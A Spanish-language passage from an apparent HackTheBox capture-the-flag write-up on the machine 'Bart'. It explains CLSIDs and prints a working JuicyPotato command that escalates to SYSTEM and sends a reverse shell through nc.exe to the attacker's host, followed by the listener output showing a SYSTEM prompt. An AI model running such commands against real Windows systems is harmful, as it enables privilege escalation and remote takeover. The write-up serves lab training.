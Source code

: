 JuicyPotato necesita un CLSID.

> En Windows, un CLSID (Class ID) es un identificador único de 128 bits que se utiliza para identificar de forma única un objeto COM (Component Object Model) o una interfaz de objeto en un sistema Windows. El CLSID también se utiliza para asociar un objeto COM con una interfaz de objeto específica, que describe cómo se debe comunicar el objeto con otras aplicaciones y sistemas operativos.


En este caso esta herramienta se aprovecha de un CLSID con permisos de SYSTEM para engañar al sistema y ejecutar tareas como SYSTEM. Podemos encontrar los CLSIDs en la siguiente página. https://ohpe.it/juicy-potato/CLSID/

El comando para establecernos una revshell como SYSTEM quedaría así:

```bash
JuicyPotato.exe -l 1337 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\test\nc.exe -e cmd.exe 10.10.16.6 443" -t *
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Si miramos nuestro listener...

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from bart.htb [10.10.10.81] 51206
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

Ya hemos pwneado la máquina!


